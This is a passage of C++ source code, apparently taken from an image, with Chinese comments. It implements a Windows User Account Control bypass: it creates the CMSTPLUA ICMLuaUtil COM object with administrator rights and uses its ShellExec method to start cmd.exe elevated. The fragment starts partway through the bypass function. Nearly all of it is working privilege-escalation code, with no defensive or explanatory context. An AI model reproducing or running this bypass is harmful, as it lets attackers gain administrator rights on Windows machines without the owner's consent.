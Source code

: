 ```cpp

    // 将字符串转换成CLSID和IID
	CLSIDFromString(CLSID_CMSTPLUA, &clsidICMLuaUtil);
	IIDFromString(IID_ICMLuaUtil, &iidICMLuaUtil);

    // 创建具有管理员权限的COM对象
	CoCreateInstanceAsAdmin(NULL, clsidICMLuaUtil, iidICMLuaUtil, (PVOID*)(&CMLuaUtil));
	
    // 使用COM对象执行ShellExec方法
    hr = CMLuaUtil->lpVtbl->ShellExec(CMLuaUtil, lpwszExecutable, szArg, NULL, 0, SW_SHOW);
	CMLuaUtil->lpVtbl->Release(CMLuaUtil);
    
	if (GetLastError())
	{
		return FALSE;
	}
	else {
		return TRUE;
	}
}

int main() {

	CoInitialize(NULL);
	CMLuaUtilBypassUAC((LPWSTR)L"cmd.exe",NULL);
	CoUninitialize();
	return 0;
}
```







